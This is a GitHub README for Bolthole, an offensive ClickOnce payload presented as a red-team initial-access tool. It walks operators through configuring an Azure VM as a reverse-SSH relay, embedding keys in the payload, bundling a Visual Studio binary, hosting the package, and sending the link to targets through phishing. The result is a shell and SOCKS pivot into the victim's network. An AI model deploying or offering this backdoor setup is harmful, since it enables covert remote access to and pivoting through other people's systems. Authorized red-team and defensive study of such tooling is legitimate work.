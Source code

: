 # Bolthole

A proof-of-concept ClickOnce payload for Red Teams to establish initial access in authorized penetration tests.

## Overview

Bolthole provides operators with:
- Reverse SSH tunnel into the target environment
- CMD shell access as the executing user (no password required)
- SOCKS proxy functionality for pivoting

## Setup Instructions

### 1. Azure VM Configuration

1. Create an Azure VM (Ubuntu recommended)
2. Configure the sshd_config file:
   ```bash
   sudo nano /etc/ssh/sshd_config
   ```
   
   Add/modify these lines:
   ```
   AllowTcpForwarding yes
   GatewayPorts yes
   PermitRootLogin no
   PasswordAuthentication no
   PubkeyAuthentication yes
   ```

3. Restart SSH service:
   ```bash
   sudo systemctl restart sshd
   ```
4. Create a user with nologin: sudo useradd -m -s /usr/sbin/nologin clientnameuser
5. Create an SSH keypair for the target to connect back: ssh-keygen -t rsa -b 4096 -f clientnameuser_key -N ""
6. Add pub key to authorized_keys: nano /home/clientnameuser/.ssh/authorized_keys
7. Change ownership: sudo chown -R clientnameuser:clientnameuser /home/clientnameuser/
8. Copy the contents of clientnameuser_key private key to WebDeploy\Install\BoltFiles\clientnameuser_key
9. Modify the Azure VM firewall in the networking settings of the VM to allow the ports you want inbound SSH for.

### 2. Build and Sign the ClickOnce Payload

1. Update connection settings in the project to use your Azure VM's FQDN
2. Change any ports you desire
3. Modify the authorized_keys file to include your pub key 'ssh-keygen -t ecdsa -N ""'
4. Copy PerfWatson2.exe "c:\program files\Microsoft Visual Studio\2022\Community\Common7\IDE\PerfWatson2.exe" to the "WebDeploy\Install" folder.
5. 

### 3. Deployment

1. Host the ClickOnce package on a web server
2. Sign in using Azure CLI: az login --use-device-code
3. Fron the WebDeploy directory: az webapp up --location eastus2 --resource-group <INSERT> --name <INSERT> --html --sku F1
2. Provide the link to the target (via phishing or other authorized methods)
3. When executed, it will establish the reverse SSH tunnel

### 4. Usage

1. Connect to your Azure VM
2. Access the target machine through the established tunnel (default port 31332):
   ```bash
   ssh -p [TUNNEL_PORT] [USERNAME]@localhost
   ```
3. For SOCKS proxy:
   ```bash
   ssh -D 1080 -p [TUNNEL_PORT] [USERNAME]@localhost
   ```

## Legal Disclaimer

This tool is provided for authorized Red Team operations only. Usage against systems without explicit permission is illegal.
